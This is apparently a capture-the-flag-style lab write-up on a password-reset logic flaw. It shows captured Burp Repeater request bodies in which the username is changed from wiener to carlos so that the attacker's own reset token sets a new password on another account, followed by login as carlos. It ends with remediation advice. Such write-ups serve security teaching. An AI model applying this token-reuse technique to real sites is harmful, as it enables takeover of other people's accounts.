




# Lab: Password Reset Broken Logic

## Vulnerability
The password reset mechanism uses a token in the URL but also includes the **username in the request body**. The server doesn't properly validate that the token belongs to the user making the request — allowing an attacker to reset any user's password using their own token.

## Exploit

### Step 1 — Trigger password reset for wiener
Clicked **Forgot password** and requested a reset for `wiener`. Opened the email client and got the reset link. Captured the POST request when submitting the new password in Burp Repeater:
```
temp-forgot-password-token=zt2rhjkqxtd0ollwfhgd37bgoatmrl3d
&username=wiener
&new-password-1=password
&new-password-2=password
```

### Step 2 — Change the username to carlos
In Repeater, kept the same token but changed `username=wiener` to `username=carlos`:
```
temp-forgot-password-token=zt2rhjkqxtd0ollwfhgd37bgoatmrl3d
&username=carlos
&new-password-1=password
&new-password-2=password
```
Server responded with `302 Found` → password changed successfully.

### Step 3 — Login as carlos
Used `carlos:password` to login → lab solved.

## Key Point
- The token is never validated against the username in the body
- An attacker can reuse their own valid token to reset any other user's password
- Password reset tokens must be tied server-side to a specific user and invalidated after use

## Proof




